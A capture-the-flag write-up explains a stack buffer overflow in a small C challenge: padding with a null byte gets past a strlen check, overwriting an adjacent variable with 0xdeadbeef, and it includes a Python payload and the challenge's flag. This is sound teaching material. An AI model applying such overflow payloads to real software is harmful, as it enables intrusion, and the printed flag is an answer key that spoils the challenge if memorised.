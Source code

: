 ## Vulnerability Explanation

The program reads up to 128 bytes into a fixed-size 64-byte buffer and then checks the buffer length:

```c
read(0, buff, 128);
if (strlen(buff) > 64) {
    printf("Too many characters, fiha khir\n");
    exit(0);
}
```

However, the `read` will happily write up to 128 bytes, overflowing past `buff` and into the adjacent `check` variable on the stack. Since there’s no write protection, we can overwrite `check`. Later the code does:

```c
if (check == 0xdeadbeef) {
    flag();
}
```

By overflowing and setting `check` to `0xdeadbeef`, we trigger `flag()` and print the flag.

## Exploitation Steps

1. **Determine overwrite offset**

   - The buffer is 64 bytes.
   - There’s a null‐byte check via `strlen`, so we ensure our padding ends with a `\x00` within the first 64 bytes to pass the length check.
   - After that null, we can use extra bytes (up to 128 total) to reach and overwrite `check`.

2. **Construct payload**

   - **64 bytes** for `buff`: use `63` `'A'`s then a `\x00` to keep `strlen(buff)` at 63.
   - **12 bytes** of filler to skip saved registers and reach `check`.
   - **4-byte value** `0xdeadbeef` to overwrite `check`.

   ```python
   padding = b'A' * 63 + b'\x00'
   filler  = b'B' * 12
   target  = p32(0xdeadbeef)
   payload = padding + filler + target
   ```

3. **Send the payload**
   The program prompts:

   ```
   Kol 3otla
   ```

   We send our crafted payload, which overflows and sets `check` correctly.

4. **Read the flag**
   After overwriting, execution reaches `flag()` and prints the flag. We can then capture it from the output.

### Flag: ghctf{k0l_33307l4_f1h4_buffer_0v3rfl0w}
